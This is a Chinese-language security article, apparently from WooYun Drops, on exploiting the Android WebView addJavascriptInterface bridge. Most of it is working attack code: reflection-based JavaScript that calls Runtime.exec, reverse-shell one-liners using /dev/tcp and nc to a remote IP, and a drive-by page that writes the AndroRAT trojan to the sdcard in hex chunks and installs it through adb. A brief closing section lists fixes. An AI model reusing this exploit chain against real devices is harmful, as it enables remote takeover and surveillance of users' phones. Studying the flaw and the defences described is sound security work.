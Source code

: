 # WebView 中接口隐患与手机挂马利用 ![](img/img1_u143_png.jpg)

2013/09/04 15:21 | [livers](http://drops.wooyun.org/author/livers "由 livers 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章"), [移动安全](http://drops.wooyun.org/category/mobile "查看 移动安全 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

在 android 的 sdk 中封装了 webView 控件。这个控件主要用开控制的网页浏览。在程序中装载 webView 控件，可以设置属性（颜色，字体等）。类似 PC 下 directUI 的功能。在 webView 下有一个非常特殊的接口函数 addJavascriptInterface。能实现本地 java 和 js 的交互。利用 addJavascriptInterface 这个接口函数可实现穿透 webkit 控制 android 本机。

## 0x01 检测利用

* * *

一般使用 html 来设计应用页面的几乎不可避免的使用到 addJavascriptInterface，包含不限于 android 浏览器。

在 android 代码程序一般是这样使用：

```
settings.setJavaScriptEnabled(true);
settings.setJavaScriptCanOpenWindowsAutomatically(true);
mWebView.addJavascriptInterface(new JSInvokeClass(), "js2java");

```

这里可以用

```
apk->zip->dex->dex2jar->jdgui->java 
```

代码来查找。

但建议用 apktool 反编译 smali（毕竟不是所有 apk 都能反编译成 java 代码）

在 smali 代码中 则是类似下列的代码：

```
const-string v0, " js2java "
invoke-virtual {p1, v1, v0},Lcom/tiantianmini/android/browser/module/ac;->addJavascriptInterface(Ljava/lang/Object;Ljava/lang/String;)V 
```

当检测到存在上述代码时，可以进行进一步验证利用：

在 11 年，已经有人利用 addJavascriptInterface 进行文件读写，并放出简单的 poc,到 12 年出现了简单的执行代码的 exp。利用的是反射回调 java 类的内置静态变量。如下列的利用代码；

```
<script>
function execute(cmdArgs)
{
    return js2java.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
}
…
</script> 
```

利用 java 的 exec 执行 linux 的 shell 命令。

## 0x02 远程获取 shell

* * *

套用 yuange 的一句话：Poc 远远小于 exp 的价值。

利用 addJavascriptInterface 实现 shell.

Android 内部的 armlinux 是没有 busybox 的，一些常规弹 shell 的方法被限制。

使用了 java 的反弹 shell 方法

```
//execute(["/system/bin/sh","-c","exec 5<>/dev/tcp/192.168.1.9/8088;cat <&5 | while read line; do $line 2>&5 >&5; done"]); 
```

在 Nexus One 4.3 的 android 虚拟机 并未成功弹出 shell.

后发现 android 中可执行 nc 命令 （阉割版的不带-e 的 nc）

这里用了 nc 的另外一种弹 shell 的方法完成

Exp 内容：

```
<script>
function execute(cmdArgs)
{
return XXX.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
}
execute(["/system/bin/sh","-c","nc 192.168.1.9 8088|/system/bin/sh|nc 192.168.1.9 9999"]);
alert("ok3");
</script>

```

// 注 xxx 保护隐私用 xx 代指。

效果如下 ￼ ![enter image description here](img/img1_u125_png.jpg)

当然可以用远程 IP 地址。

## 0x03 远程挂马

* * *

毕竟是 android 环境，shell 使用不是很方便。类似 xsser 肯定不满足于此。

再升华下，实现网页挂马。

Android 4.1 已经加入 ASLR 技术,堆喷射之类不再有效。UAF 要针对 android 的内核版本。利用自身特性的漏洞是目前比较靠谱的方法。

这里以 androrat 远控木马为例。

实现网页挂马

大部分浏览器已经对下载文件进行保存提示。这里需要把 andrat.apk 写到挂马网页之中。

```
<script>
function execute(cmdArgs)
{
return xxx.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
} 

var armBinary = "x50x4Bx03x04x14x00x08x00x08x00x51x8FxCAx40x00x00x00x00x00x00x00x00x00x00x00x00x13x00x04x00x72x65x73x2Fx6Cx61x79x6Fx75x74x2Fx6Dx61x69x6Ex2Ex78x6Dx6CxFExCAx00x00xADx52x31x6FxD3x40x18xFDx2Ex76xAEx86xC4x69x5Ax3Ax54xA2x12xA9xC4x80x22x61xE3xAAx42x4DxC7x22x86x4Ax91xA8x14xC4x0Ax56x7CxC2x27x68x1Cx39x57x0Ax53x11x3Bx63x37x06xFEx01x33x1Bx43x17x36x56xFEx07xACx6Dx9FxCBx1Dx3Dx
……
var patharm = "/data/app/Androrat.apk";
var a=execute(["/system/bin/sh","-c","echo -n +armBinary+ > " + patharm]);
execute(["chmod"," 755 ","/data/app/Androrat.apk"]);

```

这样存在几个问题：

andrat.apk 的 hex value 大约 300k,浏览器或者 java 的 exec 可能对传入参数大小有限制，（测试的浏览器有限制无法执行）

/data/app/ 目录存在权限问题，需要 root，chmod 也是同理。

Android 这种静默安装要么是有 root 或者系统签名的 install 权限，要么是做成预装软件的样子并且重启。或者是 2.2 版本左右可以 通过调用隐藏 api 安装。

经过进行 fuzz 实验，完成了挂马功能：

```
<script>
function execute(cmdArgs)
{
return xxx.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
} 

var armBinary1 = "x50x4Bx03x04x14x00x08x00x08x00x51x8FxCAx40x00x00x00x00x00x00x00x00x00x00x00x00x13x00x04x00x72x65x73x2Fx6Cx61x79x6Fx75x74x2Fx6Dx61x69x6Ex2Ex78x6Dx6CxFExCAx00x00xADx52x31x6FxD3x40x18xFDx2Ex76xAEx86xC4x69x5Ax3Ax54xA2x12xA9xC4

var armBinary2="x1BxB0x65x0AxADx23xC2x30x64xDFxEExA1x0DxA4xE8x3Fx61x80xEExBCxE1xE7x7Bx4Ax25x6Fx8Bx36x71xC3x80x81x58xDBxC9x8Fx53x9FxEEx8Ax45xAFx23x54x4AxCFx2Bx52xF2x33x84xBAx82x36xC4x0Dx08xAFxC2x61x8ExD8x7Bx0BxFCx88x4Ax25x24x8Cx22xFAx76x44x78x5Ex99x62x30x44x8DxDBx74x94

var armBinary3=…
var armBinary4=…
……
var patharm = "/mnt/sdcard/Androrat.apk";
var a=execute(["/system/bin/sh","-c","echo -n +armBinary1+ > " + patharm]);
//alert(a);
execute(["/system/bin/sh","-c","echo -n +armBinary2+ >> " + patharm]);
execute(["/system/bin/sh","-c","echo  -n +armBinary3+ >> " + patharm]);
execute(["/system/bin/sh","-c","echo -n +armBinary4+ >> " + patharm]);
execute(["/system/bin/sh","-c","adb install /mnt/sdcard/Androrat.apk"]);
alert("over !!!");
</script>

```

将 androrat.apk 拆分。

利用 echo 写入到 sdcard 中（此目录可读可写 不可执行）。

利用自身带的 adb 进行安装（安装各种 xx 手机助手的不在少数吧）。 ￼ ![enter image description here](img/img2_u151_png.jpg)

Androrat 成功安装，这里使用了 androrat 的 debug=true 模式。

![enter image description here](img/img3_u75_png.jpg)

成功连接到控制端。

## 0x04 修复

* * *

1、Android 4.2 （api17）已经开始采用新的接口函数【java 中应该叫方法：） 】，@JavascriptInterface 代替 addjavascriptInterface, 有些 android 2.3 不再升级，浏览器需要兼容。

2、在使用 js2java 的 bridge 时候，需要对每个传入的参数进行验证，屏蔽攻击代码。

3、控制相关权限或者尽可能不要使用 js2java 的 bridge。

Link: [`developer.android.com/reference/android/webkit/WebView.html`](http://developer.android.com/reference/android/webkit/WebView.html) [`developer.android.com/reference/android/webkit/WebView.html#addJavascriptInterface(java.lang.Object, java.lang.String)`](http://developer.android.com/reference/android/webkit/WebView.html#addJavascriptInterface%28java.lang.Object,%20java.lang.String%29) [`www.cis.syr.edu/~wedu/Research/paper/webview_acsac2011.pdf`](http://www.cis.syr.edu/~wedu/Research/paper/webview_acsac2011.pdf) [`50.56.33.56/blog/?p=314`](http://50.56.33.56/blog/?p=314)

版权声明：未经授权禁止转载 [livers](http://drops.wooyun.org/author/livers "由 livers 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Android uncovers master-key 漏洞分析](http://drops.wooyun.org/papers/219)
*   [Android Adobe Reader 任意代码执行分析(附 POC)](http://drops.wooyun.org/papers/1440)
*   [Intent scheme URL attack](http://drops.wooyun.org/papers/2893)
*   [一只 android 短信控制马的简单分析](http://drops.wooyun.org/papers/3030)
*   [XDS: Cross-Device Scripting Attacks](http://drops.wooyun.org/papers/1472)
*   [Android App Injection&&Drozer; Use](http://drops.wooyun.org/tips/2997)